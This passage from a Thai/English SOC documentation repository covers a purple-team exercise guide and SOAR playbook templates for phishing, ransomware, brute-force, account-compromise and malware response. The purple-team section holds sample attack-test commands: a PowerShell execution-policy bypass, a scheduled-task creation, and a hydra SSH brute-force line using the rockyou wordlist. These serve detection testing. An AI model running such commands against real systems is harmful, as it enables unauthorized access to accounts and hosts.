| 1 | ส่ง phishing email + malicious link | Email gateway alert |
| 2 | Harvest credentials (fake login page) | Impossible travel detection |
| 3 | Login ด้วย stolen credentials | Anomalous logon alert |
| 4 | Enumerate AD (BloodHound) | LDAP query spike |
| 5 | Lateral movement (PsExec) | Process creation alert |
| 6 | Data staging + exfiltration | DLP / network anomaly |

### Scenario 2: Supply Chain Attack

| ขั้นตอน | Red Team Action | Expected Detection |
|:---|:---|:---|
| 1 | Compromise update server | Code signing anomaly |
| 2 | Deploy backdoored update | File hash mismatch |
| 3 | C2 beacon (DNS tunneling) | DNS anomaly detection |
| 4 | Privilege escalation | UAC bypass / token theft |

## เทมเพลตรายงานผล

| ส่วน | เนื้อหา |
|:---|:---|
| **สรุป Executive** | ผลรวม, จำนวน techniques ที่ตรวจจับได้ |
| **รายละเอียด Technique** | ตาราง technique vs detection status |
| **Gap Analysis** | Techniques ที่ไม่มี detection |
| **คำแนะนำ** | สิ่งที่ต้องปรับปรุง จัดลำดับตาม risk |
| **แผนแก้ไข** | Action items + owner + deadline |

## ตัวชี้วัดความสำเร็จ

| ตัวชี้วัด | เป้าหมาย |
|:---|:---|
| Detection Rate | ≥ 80% ของ techniques ที่ทดสอบ |
| MTTD (ระหว่าง exercise) | ≤ 30 นาที |
| Playbook Accuracy | ≥ 90% ทำตาม playbook ได้ถูกต้อง |
| Gap Remediation (30 วัน) | ≥ 70% ของ gaps ถูกแก้ไข |

## เครื่องมือ Purple Team

| เครื่องมือ | ประเภท | ใช้สำหรับ | ราคา |
|:---|:---|:---|:---|
| **Atomic Red Team** | Open-source | ทดสอบ techniques เดี่ยว | ฟรี |
| **MITRE Caldera** | Open-source | Automated adversary emulation | ฟรี |
| **Infection Monkey** | Open-source | Network propagation testing | ฟรี |
| **SafeBreach** | Commercial | Continuous BAS | $$$  |
| **AttackIQ** | Commercial | Automated BAS platform | $$$ |

## ตัวอย่าง Atomic Test Commands

### T1059.001 — PowerShell Execution

```powershell
# ทดสอบ: PowerShell execution policy bypass
powershell.exe -ExecutionPolicy Bypass -Command "Write-Host 'Test'"

# Expected Detection: Sysmon Event ID 1 + PowerShell logging
# Expected Alert: Suspicious PowerShell execution
```

### T1053.005 — Scheduled Task

```powershell
# ทดสอบ: สร้าง scheduled task
schtasks /create /tn "PurpleTest" /tr "calc.exe" /sc once /st 23:59

# Cleanup:
schtasks /delete /tn "PurpleTest" /f
```

### T1078 — Valid Accounts (Brute Force)

```bash
# ทดสอบ: SSH brute force (ใน lab เท่านั้น!)
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target_ip

# Expected Detection: Multiple failed auth → account lockout alert
```

## กำหนดการ Purple Team ประจำปี

| ไตรมาส | Focus Area | Techniques | ระดับ |
|:---|:---|:---|:---:|
| **Q1** | Initial Access + Execution | T1566, T1059 | Intermediate |
| **Q2** | Persistence + Priv Esc | T1053, T1548 | Intermediate |
| **Q3** | Lateral Movement + Collection | T1021, T1005 | Advanced |
| **Q4** | Full Kill Chain Simulation | End-to-end | Advanced |

## Exercise Execution Checklist

### Pre-Exercise (สัปดาห์ก่อน)
- [ ] กำหนด scope และ Rules of Engagement
- [ ] เตรียม attack scenarios (ATT&CK mapping)
- [ ] แจ้ง stakeholders ที่เกี่ยวข้อง
- [ ] Setup monitoring และ logging
- [ ] Backup ระบบที่เกี่ยวข้อง

### During Exercise
- [ ] Red Team: execute attacks ตาม playbook
- [ ] Blue Team: detect และ respond แบบ real-time
- [ ] White Team: ควบคุมและบันทึกผลลัพธ์
- [ ] Log ทุก action พร้อม timestamp

### Post-Exercise
- [ ] Debrief ร่วม Red + Blue Team
- [ ] Gap analysis: จุดที่ detect ไม่ได้
- [ ] สร้าง detection rules ใหม่
- [ ] อัปเดต playbooks จากบทเรียน

### Detection Gap Tracking

| Attack Technique | MITRE ID | Detected? | Gap Action |
|:---|:---|:---|:---|
| Spearphishing | T1566.001 | ✅ ตรวจจับได้ | - |
| PowerShell execution | T1059.001 | ⚠️ บางส่วน | เพิ่ม rule |
| Lateral Movement | T1021 | ❌ ไม่พบ | สร้าง use case |
| Data Staging | T1074 | ❌ ไม่พบ | เพิ่ม DLP rule |
| Exfiltration | T1048 | ✅ ตรวจจับได้ | - |

### Resource Allocation

| Resource | Red Team | Blue Team | White Team |
|:---|:---|:---|:---|
| Personnel | 2-3 คน | 3-5 คน | 1-2 คน |
| Duration | 2-4 สัปดาห์ | ตลอด exercise | ตลอด exercise |
| Tools | Metasploit, Cobalt | SIEM, EDR | Reporting |

### Exercise Deconfliction

| เวลา | Activity | Owner |
|:---|:---|:---|
| T-7 days | Notify stakeholders | White Team |
| T-1 day | Verify safeguards | Red + White |
| T+0 | Execute | Red |
| T+1 day | Initial debrief | All |
| T+5 days | Final report | White Team |

### ROI Measurement

| Metric | Before | After | Improvement |
|:---|:---|:---|:---|
| Detection rate | 40% | 75% | +35% |
| MTTD | 48 hrs | 4 hrs | -92% |
| Rules created | 0 | 15 | +15 new |

### Detection Improvement Targets

| Area | Before | Target |
|:---|:---|:---|
| Detection rate | 40% | 80% |
| Mean time to detect | 48h | 4h |
| Coverage (ATT&CK) | 30% | 60% |

## เอกสารที่เกี่ยวข้อง

- [สถานการณ์จำลอง](Tabletop_Exercises.th.md)
- [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md)
- [แผนที่ MITRE ATT&CK](../tools/mitre_attack_heatmap.html)


---

## File: 05_Incident_Response/SOAR_Playbooks.en.md

# SOAR Playbook Templates

> **Document ID:** SOAR-TPL-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Engineer  

---

## Purpose

Pre-built automation workflow templates for **Security Orchestration, Automation, and Response (SOAR)** platforms. These templates map directly to SOC Playbooks and can be imported into:

- **Palo Alto XSOAR** (Cortex)
- **Shuffle** (Open-source)
- **TheHive / Cortex**
- **Tines** / **Splunk SOAR**

---

## Template Index

| # | Template | Playbook | Automation Level | Key Actions |
|:---:|:---|:---|:---:|:---|
| 1 | [Phishing Triage](#1-phishing-triage) | PB-01 | Full | Extract IOC → Sandbox → Block → Notify |
| 2 | [Ransomware Response](#2-ransomware-response) | PB-02 | Semi | Isolate → Snapshot → Escalate |
| 3 | [Brute Force Block](#3-brute-force-lockout) | PB-04 | Full | Check threshold → Lock account → Alert |
| 4 | [Account Compromise](#4-account-compromise) | PB-05 | Full | Disable → Reset → Revoke sessions |
| 5 | [Malware Quarantine](#5-malware-quarantine) | PB-03 | Full | Hash lookup → Quarantine → Block hash |
| 6 | [IOC Enrichment](#6-ioc-enrichment) | All | Full | Multi-source enrichment → Verdict |

---

## 1. Phishing Triage

**Trigger**: Email reported by user or email gateway alert  
**Automation Level**: Full auto with analyst approval for blocking

```yaml
# XSOAR / Shuffle compatible workflow
name: Phishing Auto Triage
trigger:
  type: email_report
  source: phishing_mailbox OR email_gateway_alert

steps:
  - id: extract_indicators
    action: extract_indicators
    description: "Parse email for URLs, attachments, sender IP, headers"
    inputs:
      email_body: "{{incident.email_body}}"
      attachments: "{{incident.attachments}}"
    outputs: [urls, file_hashes, sender_ip, sender_domain]

  - id: check_reputation
    action: parallel
    description: "Check all indicators against threat intel"
    tasks:
      - action: virustotal_lookup
        inputs: { indicators: "{{extract_indicators.file_hashes}}" }
      - action: urlscan_submit
        inputs: { urls: "{{extract_indicators.urls}}" }
      - action: abuseipdb_check
        inputs: { ip: "{{extract_indicators.sender_ip}}" }
      - action: whois_lookup
        inputs: { domain: "{{extract_indicators.sender_domain}}" }

  - id: sandbox_attachment
    action: sandbox_detonate
    condition: "{{extract_indicators.attachments | length > 0}}"
    inputs:
      files: "{{extract_indicators.attachments}}"
      sandbox: "any.run OR hybrid_analysis"
      timeout: 300

  - id: calculate_verdict
    action: decision
    inputs:
      vt_score: "{{check_reputation.virustotal.score}}"
      sandbox_result: "{{sandbox_attachment.verdict}}"
      url_scan: "{{check_reputation.urlscan.verdict}}"
    rules:
      - condition: "vt_score >= 5 OR sandbox_result == 'malicious'"
        verdict: MALICIOUS
      - condition: "vt_score >= 2 OR sandbox_result == 'suspicious'"
        verdict: SUSPICIOUS
      - default:
        verdict: CLEAN

  - id: respond_malicious
    action: sequential
    condition: "{{calculate_verdict.verdict == 'MALICIOUS'}}"
    tasks:
      - action: block_sender
        inputs: { email: "{{extract_indicators.sender_email}}", platform: "exchange_or_gsuite" }
      - action: delete_from_mailboxes
        inputs: { message_id: "{{incident.message_id}}" }
      - action: block_urls
        inputs: { urls: "{{extract_indicators.urls}}", platform: "proxy_or_firewall" }
      - action: block_hashes
        inputs: { hashes: "{{extract_indicators.file_hashes}}", platform: "edr" }
      - action: notify_user
        inputs: { user: "{{incident.reported_by}}", template: "phishing_confirmed" }
      - action: create_incident
        inputs: { severity: "P2", playbook: "PB-01", title: "Confirmed Phishing" }

  - id: respond_clean
    action: sequential
    condition: "{{calculate_verdict.verdict == 'CLEAN'}}"
    tasks:
      - action: close_alert
        inputs: { verdict: "false_positive", notes: "No malicious indicators found" }
      - action: notify_user
        inputs: { user: "{{incident.reported_by}}", template: "phishing_clean" }
```

---

## 2. Ransomware Response

**Trigger**: EDR alert for ransomware behavior  
**Automation Level**: Semi-auto (isolate immediately, escalate to human)

```yaml
name: Ransomware Emergency Response
trigger:
  type: edr_alert
  rule: "ransomware_behavior OR file_bulk_encryption"

steps:
  - id: immediate_isolate
    action: edr_isolate_host
    description: "Network-isolate the affected endpoint IMMEDIATELY"
    inputs:
      hostname: "{{alert.hostname}}"
      platform: "crowdstrike OR sentinelone OR defender"
    priority: CRITICAL
    auto_execute: true

  - id: snapshot_evidence
    action: parallel
    tasks:
      - action: edr_collect_forensics
        inputs: { hostname: "{{alert.hostname}}", artifacts: ["memory_dump", "running_processes", "network_connections"] }
      - action: cloud_snapshot
        inputs: { instance_id: "{{alert.cloud_instance_id}}" }
        condition: "{{alert.is_cloud_instance}}"

  - id: check_lateral
    action: edr_hunt
    description: "Hunt for same IOCs across all endpoints"
    inputs:
      iocs: "{{alert.file_hashes}}"
      process_names: "{{alert.process_name}}"
      time_range: "24h"

  - id: escalate
    action: escalate_incident
    inputs:
      severity: "P1"
      playbook: "PB-02"
      notify: ["soc_lead", "incident_commander", "ciso"]
      channel: "slack_or_teams"
      message: |
        🔴 RANSOMWARE DETECTED
        Host: {{alert.hostname}}
        User: {{alert.username}}
        Process: {{alert.process_name}}
        Status: Host isolated, forensics collecting
        Lateral movement check: {{check_lateral.result_count}} additional hosts

  - id: block_iocs
    action: parallel
    tasks:
      - action: block_hashes
        inputs: { hashes: "{{alert.file_hashes}}", platform: "edr" }
      - action: block_ips
        inputs: { ips: "{{alert.c2_ips}}", platform: "firewall" }
        condition: "{{alert.c2_ips | length > 0}}"
```

---

## 3. Brute Force Lockout

**Trigger**: SIEM alert for N+ failed logins in T minutes  
**Automation Level**: Full auto

```yaml
name: Brute Force Auto-Lockout
trigger:
  type: siem_alert
  rule: "brute_force_threshold"
  threshold: "10 failures in 5 minutes"

steps:
  - id: enrich_source
    action: parallel
    tasks:
      - action: geoip_lookup
        inputs: { ip: "{{alert.source_ip}}" }
      - action: abuseipdb_check
        inputs: { ip: "{{alert.source_ip}}" }
      - action: internal_asset_check
        inputs: { ip: "{{alert.source_ip}}" }

  - id: decide_action
    action: decision
    rules:
      - condition: "{{enrich_source.is_internal}} == true"
        action: alert_only
        note: "Internal IP — may be misconfigured service"
      - condition: "{{enrich_source.abuseipdb_score}} >= 80"
        action: block_and_lock
      - condition: "{{enrich_source.geoip.country}} NOT IN allowed_countries"
        action: block_and_lock
      - default:
        action: temporary_block

  - id: execute_block
    action: sequential
    condition: "{{decide_action.action == 'block_and_lock'}}"
    tasks:
      - action: firewall_block_ip
        inputs: { ip: "{{alert.source_ip}}", duration: "24h" }
      - action: lock_account
        inputs: { username: "{{alert.target_user}}", platform: "ad_or_azure" }
        condition: "{{alert.any_success}} == true"
      - action: create_incident
        inputs: { severity: "P3", playbook: "PB-04" }
```

---

## 4. Account Compromise

**Trigger**: Impossible travel, token theft, or confirmed credential leak  
**Automation Level**: Full auto

```yaml
name: Account Compromise Auto-Response
trigger:
  type: identity_alert
  rules: ["impossible_travel", "token_anomaly", "credential_leak"]

steps:
  - id: disable_account
    action: identity_disable_user
    auto_execute: true
    inputs:
      username: "{{alert.username}}"
      platform: "azure_ad OR okta OR google"

  - id: revoke_sessions
    action: parallel
    tasks:
      - action: revoke_oauth_tokens
        inputs: { user: "{{alert.username}}" }
      - action: revoke_active_sessions
        inputs: { user: "{{alert.username}}" }
      - action: revoke_mfa_bypass
        inputs: { user: "{{alert.username}}" }

  - id: audit_actions
    action: query_audit_log
    inputs:
      user: "{{alert.username}}"
      time_range: "72h"
      actions: ["file_download", "permission_change", "email_forward_rule", "mailbox_delegation"]

  - id: remediate
    action: sequential
    tasks:
      - action: reset_password
        inputs: { user: "{{alert.username}}", force_change: true }
      - action: re_enroll_mfa
        inputs: { user: "{{alert.username}}" }
      - action: remove_suspicious_rules
        inputs: { rules: "{{audit_actions.forwarding_rules}}" }
        condition: "{{audit_actions.forwarding_rules | length > 0}}"

  - id: notify
    action: parallel
    tasks:
      - action: notify_user_manager
        inputs: { user: "{{alert.username}}", template: "account_compromised" }
      - action: create_incident
        inputs: { severity: "P2", playbook: "PB-05" }
```

---

## 5. Malware Quarantine

**Trigger**: EDR malware detection alert  
**Automation Level**: Full auto

```yaml
name: Malware Auto-Quarantine
trigger:
  type: edr_alert
  category: malware_detection

steps:
  - id: quarantine_file
    action: edr_quarantine_file
    auto_execute: true
    inputs:
      file_path: "{{alert.file_path}}"
      hostname: "{{alert.hostname}}"

  - id: check_hash
    action: parallel
    tasks:
      - action: virustotal_hash_lookup
        inputs: { hash: "{{alert.file_hash}}" }
      - action: malwarebazaar_lookup
        inputs: { hash: "{{alert.file_hash}}" }

  - id: enterprise_block
    action: block_hash_enterprise
    condition: "{{check_hash.virustotal.positives}} >= 5"
    inputs:
      hash: "{{alert.file_hash}}"
      platform: "edr"
      scope: "organization"

  - id: hunt_enterprise
    action: edr_hunt
    inputs:
      hash: "{{alert.file_hash}}"
      scope: "all_endpoints"
    outputs: [affected_hosts]

  - id: mass_quarantine
    action: edr_quarantine_file
    condition: "{{hunt_enterprise.affected_hosts | length > 0}}"
    inputs:
      file_hash: "{{alert.file_hash}}"
      hosts: "{{hunt_enterprise.affected_hosts}}"

  - id: close
    action: create_incident
    inputs:
      severity: "{{alert.severity}}"
      playbook: "PB-03"
      affected_hosts: "{{hunt_enterprise.affected_hosts}}"
```

---

## 6. IOC Enrichment

**Trigger**: Called by any playbook needing indicator enrichment  
**Automation Level**: Full auto (sub-playbook)

```yaml
name: IOC Multi-Source Enrichment
trigger:
  type: sub_playbook
  called_by: any

inputs:
  indicator_type: "ip | domain | hash | url"
  indicator_value: "<value>"

steps:
  - id: enrich
    action: parallel
    tasks:
      - action: virustotal_lookup
        inputs: { indicator: "{{indicator_value}}", type: "{{indicator_type}}" }
      - action: abuseipdb_check
        inputs: { ip: "{{indicator_value}}" }
        condition: "{{indicator_type == 'ip'}}"
      - action: urlscan_lookup
        inputs: { url: "{{indicator_value}}" }
        condition: "{{indicator_type == 'url'}}"
      - action: urlhaus_lookup
        inputs: { indicator: "{{indicator_value}}" }
      - action: threatfox_lookup
        inputs: { indicator: "{{indicator_value}}" }
      - action: shodan_lookup
        inputs: { ip: "{{indicator_value}}" }
        condition: "{{indicator_type == 'ip'}}"
      - action: whois_lookup
        inputs: { domain: "{{indicator_value}}" }
        condition: "{{indicator_type == 'domain'}}"

  - id: calculate_score
    action: scoring
    inputs:
      vt_score: "{{enrich.virustotal.positives}}"
      abuse_score: "{{enrich.abuseipdb.score}}"
      urlhaus_status: "{{enrich.urlhaus.status}}"
      threatfox_ioc: "{{enrich.threatfox.found}}"
    rules:
      - condition: "vt_score >= 10 OR abuse_score >= 90 OR threatfox_ioc"
        verdict: MALICIOUS
        confidence: HIGH
      - condition: "vt_score >= 3 OR abuse_score >= 50"
        verdict: SUSPICIOUS
        confidence: MEDIUM
      - default:
        verdict: CLEAN
        confidence: LOW

outputs:
  verdict: "{{calculate_score.verdict}}"
  confidence: "{{calculate_score.confidence}}"
  enrichment_data: "{{enrich}}"
```

---

## Import Guide

### XSOAR (Cortex)
1. Convert YAML to XSOAR playbook via Marketplace or custom content pack
2. Upload via **Settings → Content → Upload Content Pack**
3. Map integrations (VirusTotal, EDR, Firewall) in **Settings → Integrations**

### Shuffle
1. Import YAML directly via **Workflows → Import**
2. Configure app connections for each integration
3. Set triggers via webhook or SIEM integration

### TheHive
1. Create Responders based on each step's action
2. Build Case Templates matching playbook workflows
3. Link Cortex Analyzers for enrichment steps

---

## Related Documents

- [IR Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md)
- [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md)
- [Detection Rules](../08_Detection_Engineering/README.md)


---

## File: 05_Incident_Response/SOAR_Playbooks.th.md

# แม่แบบ SOAR Playbook

> **รหัสเอกสาร:** SOAR-TPL-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Engineer  

---

## วัตถุประสงค์

แม่แบบ workflow อัตโนมัติสำหรับ **SOAR** สามารถ import เข้า:
- **Palo Alto XSOAR** (Cortex)
- **Shuffle** (Open-source)
- **TheHive / Cortex**
- **Tines** / **Splunk SOAR**

---

## ดัชนีแม่แบบ

| # | แม่แบบ | Playbook | ระดับอัตโนมัติ | การดำเนินการหลัก |
|:---:|:---|:---|:---:|:---|
| 1 | Phishing Triage | PB-01 | เต็ม | Extract IOC → Sandbox → Block → แจ้ง |
| 2 | Ransomware Response | PB-02 | กึ่งอัตโนมัติ | Isolate → Snapshot → Escalate |
| 3 | Brute Force Block | PB-04 | เต็ม | ตรวจ threshold → Lock → Alert |
| 4 | Account Compromise | PB-05 | เต็ม | Disable → Reset → Revoke sessions |
| 5 | Malware Quarantine | PB-03 | เต็ม | ค้น hash → Quarantine → Block |
| 6 | IOC Enrichment | ทั้งหมด | เต็ม | Enrichment หลายแหล่ง → Verdict |

---

## 1. Phishing Triage

**Trigger**: User แจ้ง email น่าสงสัย หรือ email gateway alert  
**อัตโนมัติ**: เต็มรูปแบบ (ต้อง approve ก่อน block)

```yaml
name: Phishing Auto Triage
trigger:
  type: email_report
  source: phishing_mailbox OR email_gateway_alert

steps:
  - id: extract_indicators
    action: extract_indicators
    description: "แยก URLs, attachments, sender IP จาก email"

  - id: check_reputation
    action: parallel
    tasks:
      - action: virustotal_lookup
      - action: urlscan_submit
      - action: abuseipdb_check

  - id: sandbox_attachment
    action: sandbox_detonate
    condition: "มี attachment"
    timeout: 300

  - id: calculate_verdict
    action: decision
    rules:
      - "VT ≥ 5 OR sandbox = malicious" → MALICIOUS
      - "VT ≥ 2 OR sandbox = suspicious" → SUSPICIOUS
      - default → CLEAN

  - id: respond_malicious
    condition: "MALICIOUS"
    tasks:
      - block_sender
      - delete_from_mailboxes
      - block_urls (proxy/firewall)
      - block_hashes (EDR)
      - notify_user → "ยืนยัน phishing"
      - create_incident → P2, PB-01
```

---

## 2. Ransomware Response

**Trigger**: EDR alert พฤติกรรม ransomware  
**อัตโนมัติ**: กึ่ง (isolate ทันที, ส่งต่อคน)

```yaml
name: Ransomware Emergency Response
steps:
  - id: immediate_isolate
    action: edr_isolate_host
    auto_execute: true  # ← ตัดเน็ตทันที ไม่ต้องรอ

  - id: snapshot_evidence
    tasks:
      - edr_collect_forensics (memory, processes, network)
      - cloud_snapshot (ถ้าเป็น cloud)

  - id: check_lateral
    action: edr_hunt  # ← ค้นหา IOC เดียวกันทั้งองค์กร

  - id: escalate
    severity: P1, playbook: PB-02
    notify: [soc_lead, incident_commander, ciso]
```

---

## 3. Brute Force Lockout

**Trigger**: SIEM alert ≥ 10 failed logins ใน 5 นาที  
**อัตโนมัติ**: เต็มรูปแบบ

```yaml
name: Brute Force Auto-Lockout
steps:
  - id: enrich_source
    tasks:
      - geoip_lookup
      - abuseipdb_check
      - internal_asset_check

  - id: decide_action
    rules:
      - IP ภายใน → แจ้งเตือนเท่านั้น
      - AbuseIPDB ≥ 80 → block + lock
      - ประเทศไม่อนุญาต → block + lock
      - อื่นๆ → block ชั่วคราว

  - id: execute_block
    tasks:
      - firewall_block_ip (24 ชม.)
      - lock_account (ถ้า login สำเร็จแล้ว)
      - create_incident → P3, PB-04
```

---

## 4. Account Compromise

**Trigger**: Impossible travel, token theft, credential leak  
**อัตโนมัติ**: เต็มรูปแบบ

```yaml
name: Account Compromise Auto-Response
steps:
  - id: disable_account → ทันที
  - id: revoke_sessions → OAuth + active sessions + MFA bypass
  - id: audit_actions → ตรวจ 72 ชม. ย้อนหลัง
  - id: remediate → reset password + re-enroll MFA + ลบ forwarding rules
  - id: notify → แจ้งหัวหน้าผู้ใช้ + สร้าง incident P2
```

---

## 5. Malware Quarantine

**Trigger**: EDR ตรวจพบ malware  
**อัตโนมัติ**: เต็มรูปแบบ

```yaml
name: Malware Auto-Quarantine
steps:
  - id: quarantine_file → กักไฟล์ทันที
  - id: check_hash → VT + MalwareBazaar
  - id: enterprise_block → block hash ทั้งองค์กร (ถ้า VT ≥ 5)
  - id: hunt_enterprise → ค้นหาเครื่องอื่นที่มีไฟล์เดียวกัน
  - id: mass_quarantine → กักทุกเครื่องที่พบ
```

---

## 6. IOC Enrichment (Sub-playbook)

**Trigger**: เรียกโดย playbook อื่น  
**อัตโนมัติ**: เต็มรูปแบบ

```yaml
name: IOC Multi-Source Enrichment
inputs: indicator_type (ip|domain|hash|url), indicator_value

steps:
  - id: enrich (ขนานกัน)
    - virustotal_lookup
    - abuseipdb_check (ถ้า IP)
    - urlscan_lookup (ถ้า URL)
    - urlhaus_lookup
    - threatfox_lookup
    - shodan_lookup (ถ้า IP)
    - whois_lookup (ถ้า domain)

  - id: calculate_score
    rules:
      VT ≥ 10 OR AbuseIPDB ≥ 90 → MALICIOUS (HIGH)
      VT ≥ 3 OR AbuseIPDB ≥ 50 → SUSPICIOUS (MED)
      อื่นๆ → CLEAN (LOW)

outputs: verdict, confidence, enrichment_data
```

---

## คู่มือ Import

### XSOAR (Cortex)
1. แปลง YAML เป็น XSOAR playbook
2. Upload ที่ **Settings → Content → Upload Content Pack**
3. Map integrations ที่ **Settings → Integrations**

### Shuffle
1. Import YAML ที่ **Workflows → Import**
2. ตั้ง app connections
3. ตั้ง triggers จาก webhook/SIEM

### TheHive
1. สร้าง Responders ตามแต่ละ step
2. สร้าง Case Templates ตาม workflow
3. เชื่อม Cortex Analyzers สำหรับ enrichment

---

## Metrics & KPIs สำหรับ SOAR

| ตัวชี้วัด | ก่อน SOAR | หลัง SOAR | เป้าหมาย |
|:---|:---:|:---:|:---:|
| **MTTR** (เวลาตอบสนอง) | 45 นาที | 5 นาที | < 10 นาที |
| **Alert Triage Speed** | 8 นาที/alert | 30 วินาที | < 1 นาที |
| **Analyst Workload** | 200 alerts/วัน | 50 alerts/วัน | < 100 |
| **Automation Rate** | 0% | 65% | > 70% |
| **False Positive Auto-Close** | 0% | 40% | > 50% |

## Best Practices

1. **เริ่มจากง่าย** — อย่าพยายาม automate ทุกอย่างพร้อมกัน เริ่มจาก playbook ที่มี volume สูงสุด
2. **Human-in-the-Loop** — ใส่จุด approval สำหรับ actions ที่มี impact สูง (เช่น block IP, disable account)
3. **ทดสอบใน staging** — รัน playbook ใน test environment ก่อน deploy จริง
4. **บันทึกทุกอย่าง** — ทุก action ที่ SOAR ทำต้องมี audit trail
5. **Review รายเดือน** — ทบทวน playbook performance และ false positive rates
6. **Version Control** — เก็บ playbook definitions ใน Git

## Automation Readiness Checklist

| รายการ | สถานะ |
|:---|:---:|
| API access สำหรับ SIEM, EDR, TI platforms | ☐ |
| Service accounts สำหรับ SOAR integrations | ☐ |
| Network connectivity ระหว่าง SOAR และ tools | ☐ |
| Playbooks ทดสอบใน staging แล้ว | ☐ |
| Escalation path สำหรับ automation failures | ☐ |
| Rollback procedures สำหรับ automated actions | ☐ |

## SOAR Platform Comparison

| คุณสมบัติ | XSOAR | Shuffle | TheHive+Cortex |
|:---|:---:|:---:|:---:|
| **ราคา** | Commercial | ฟรี (OSS) | ฟรี (OSS) |
| **Visual Playbook Builder** | ✅ | ✅ | ❌ (code-based) |
| **Pre-built Integrations** | 700+ | 100+ | 50+ |
| **Case Management** | ✅ | ❌ | ✅ |
| **API** | ✅ | ✅ | ✅ |
| **เหมาะกับ** | Enterprise | SMB, startup | SOC ที่ใช้ TheHive |

## Playbook Development Lifecycle

```mermaid
graph LR
    Identify["🎯 ระบุ Use Case"] --> Design["📐 ออกแบบ Flow"]
    Design --> Develop["💻 พัฒนา"]
    Develop --> Test["🧪 ทดสอบ"]
    Test --> Deploy["🚀 Deploy"]
    Deploy --> Monitor["📊 Monitor"]
    Monitor --> Improve["🔄 ปรับปรุง"]
```

### แนวทางการพัฒนา Playbook

| ขั้นตอน | กิจกรรม | ผลลัพธ์ |
|:---|:---|:---|
| **1. ระบุ Use Case** | วิเคราะห์ alert volume สูงสุด | รายการ use cases จัดลำดับ |
| **2. ออกแบบ Flow** | วาด flowchart, ระบุ decision points | Playbook diagram |
| **3. กำหนด Integrations** | ระบุ API ที่ต้องเชื่อมต่อ | Integration checklist |
| **4. พัฒนา** | สร้าง playbook ใน SOAR platform | Working playbook |
| **5. ทดสอบ** | รันด้วย test data, edge cases | Test report |
| **6. Deploy** | เปิดใช้งานจริง, อาจเริ่มแบบ semi-auto | Production playbook |
| **7. ปรับปรุง** | Review metrics, tune thresholds | Updated playbook |

## Error Handling Patterns

| Pattern | วิธีการ | ตัวอย่าง |
|:---|:---|:---|
| **Retry** | ลองใหม่ N ครั้งก่อน fail | API timeout → retry 3 ครั้ง |
| **Fallback** | ใช้วิธีสำรองเมื่อ primary fail | VT ล่ม → ใช้ OTX แทน |
| **Human Escalation** | ส่งให้คนเมื่อ automation ไม่มั่นใจ | Confidence < 70% → analyst review |
| **Circuit Breaker** | หยุดเรียก API เมื่อ error สูง | Error rate > 50% → pause 5 min |
| **Timeout** | กำหนดเวลาสูงสุดต่อ step | Step timeout = 30 วินาที |

## Integration Matrix

| Tool | API Endpoint | Auth Method | Actions |
|:---|:---|:---|:---|
| **VirusTotal** | `api.virustotal.com/v3` | API Key | Hash/URL/IP lookup |
| **AbuseIPDB** | `api.abuseipdb.com/v2` | API Key | IP reputation |
| **URLhaus** | `urlhaus-api.abuse.ch` | None | URL check |
| **MISP** | `<misp>/api` | API Key | IoC search/create |
| **TheHive** | `<thehive>:9000/api` | API Key | Case create/update |
| **Jira** | `<jira>/rest/api/2` | Token | Ticket create |
| **Slack** | `hooks.slack.com` | Webhook | Notification |
| **Email** | SMTP | Credentials | Alert notification |

## Testing Checklist

- [ ] ทุก step ทำงานได้กับ test data
- [ ] Error handling ทำงานถูกต้อง (ทดสอบด้วย invalid input)
- [ ] Timeout ทำงาน (ทดสอบด้วย slow/unreachable API)
- [ ] Escalation path ทำงาน (ทดสอบด้วย ambiguous results)
- [ ] ผลลัพธ์ถูกบันทึกใน case management
- [ ] Notification ส่งไปถูกช่องทาง
- [ ] Performance ยอมรับได้ (< 2 นาทีต่อ playbook run)

## Troubleshooting SOAR Playbooks

| ปัญหา | สาเหตุ | วิธีแก้ |
|:---|:---|:---|
| Playbook ไม่ trigger | Trigger condition ไม่ match | ตรวจสอบ filter/regex |
| API call timeout | Service ช้า/ล่ม | เพิ่ม retry + timeout |
| ผลลัพธ์ผิดพลาด | Input format ไม่ถูก | Validate input ก่อน process |
| Notification ไม่ส่ง | Webhook URL เปลี่ยน | อัปเดต config |
| Memory/CPU สูง | Loop ไม่มี limit | เพิ่ม max iterations |

## Sub-Playbook Design Pattern

```mermaid
graph TD
    Main["🎯 Main Playbook"] --> Enrich["📊 Enrichment Sub-PB"]
    Main --> Contain["🔒 Containment Sub-PB"]
    Main --> Notify["📢 Notification Sub-PB"]
    Enrich --> VT["VirusTotal"]
    Enrich --> AIPDB["AbuseIPDB"]
    Enrich --> MISP["MISP"]
    Contain --> Block["Block IP/Domain"]
    Contain --> Isolate["Isolate Host"]
    Notify --> Slack["Slack"]
    Notify --> Email["Email"]
    Notify --> Ticket["Create Ticket"]
```

## Version Control สำหรับ Playbooks

| ฟิลด์ | คำอธิบาย |
|:---|:---|
| **Playbook ID** | SOAR-PB-NNN |
| **Version** | Semantic versioning (1.0.0) |
| **Change Log** | บันทึกการเปลี่ยนแปลง |
| **Tested Date** | วันที่ทดสอบล่าสุด |
| **Approved By** | ผู้อนุมัติ |
| **Next Review** | กำหนดทบทวน |

## ROI Calculator

```
Annual Time Saved = (Alerts/Year × Manual Time/Alert) - (Alerts/Year × Auto Time/Alert)
Cost Saved = Time Saved × Analyst Hourly Rate
ROI = (Cost Saved - SOAR License Cost) / SOAR License Cost × 100%

ตัวอย่าง:
  10,000 alerts/ปี × (15 นาที - 2 นาที) = 2,167 ชั่วโมง/ปี
  2,167 × 500 ฿/ชม. = 1,083,500 ฿ ประหยัดได้
```

## SOAR Performance Optimization

### Playbook Execution Metrics

| Metric | Target | Measurement |
|:---|:---|:---|
| Mean Time to Respond (MTTR) | < 5 นาที | Auto-measured |
| Playbook Success Rate | > 95% | Weekly review |
| False Positive Rate | < 10% | Monthly tuning |
| Human Override Rate | < 15% | Quarterly review |

### Integration Health Dashboard

```
┌──────────────────────────────────────────┐
│  SOAR Integration Status                 │
├──────────┬───────┬───────┬───────────────┤
│ Platform │ Status│ Uptime│ Last Sync     │
├──────────┼───────┼───────┼───────────────┤
│ SIEM     │ ✅    │ 99.9% │ 2 min ago     │
│ EDR      │ ✅    │ 99.5% │ 5 min ago     │
